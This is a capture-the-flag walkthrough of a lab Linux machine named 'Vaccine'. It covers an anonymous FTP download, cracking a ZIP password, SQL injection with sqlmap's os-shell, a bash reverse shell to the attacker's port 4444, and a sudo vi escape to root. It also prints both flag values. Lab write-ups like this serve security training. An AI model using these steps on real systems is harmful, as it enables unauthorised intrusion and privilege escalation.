

# [OK] - Vaccine

| Difficult: | Easy |
| --- | --- |
| OS: | Linux |
| Last edit: | 01/07/22 |

The first task was collect information from the target. So, we execute the Nmap to collect the ports and services running in the target.

```bash
> Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2022-07-01 03:10 EDT
Warning: 10.129.96.84 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.96.84
Host is up (0.16s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
21/tcp    open     ftp     vsftpd 3.0.3
22/tcp    open     ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
6435/tcp  filtered unknown
13214/tcp filtered unknown
24038/tcp filtered unknown
34990/tcp filtered unknown
37527/tcp filtered unknown
58145/tcp filtered unknown
59805/tcp filtered unknown
63452/tcp filtered unknown
64181/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three ports open: 21 (FTP), 22 (SSH), 80 (HTTP). Since we don't have any credentials for the SSH service, we will start off with enumeration of the port 21, since the Nmap shows that it allows anonymous login:

```bash
> ftp [anonymous@10.129.84.131](mailto:anonymous@10.129.84.131)
Password: password
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10227|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
local: backup.zip remote: backup.zip
100% |************************************************|  2533        1.40 MiB/s    00:00 ETA
226 Transfer complete.
```

In order to successfully crack the password, we will have to convert the ZIP into the hash using the ***zip2john*** module that comes within John the Ripper:

```bash
> zip2john secret_files.zip > hash.txt
```

```bash
> john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
**741852963        (backup.zip)**     
Session completed.
```

Unzip the file backup with the password. We found in file *index.php* the password MD5 to admin.



Decryption MD5: `MD5: “2cb42f8734ea607eefed3b70af13bbd3” = Text: “qwerty789”`

Login in Web App in port 80 with the `admin | qwerty789` credentials:


We will provide the URL & the cookie to the *sqlmap* in order for it to find vulnerability. The reason why we have to provide a cookie is because of authentication:


The target is vulnerable to SQL injection now we are going to provide the --os-shell flag, where we will be able to perform command shell injection:


I like to use shell reverse because it is more flexible. So I enabled a *netcat* on my machine listening on port 4444 and run on the target `bash -c "bash -i >& /dev/tcp/my_machine_ip/4444 0>&1"` to call with shell.

Flag: /var/lib/postgresql/user.txt → “ec9b13ca4d6229cd5cc1e09980965bf7”

In the *dashboard.php*, we found the *postgres* password:


We have sudo privileges to edit the pg_hba.conf file using vi by running `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. We will go to GTFOBins to see if we can abuse this privilege [https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)


We used the (b) option to get root:


`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

`:set shell=/bin/sh`

`:shell`


Flag: /root/root.txt → “dd6e058e814260bc70e9bbdef2715849”

End,bye!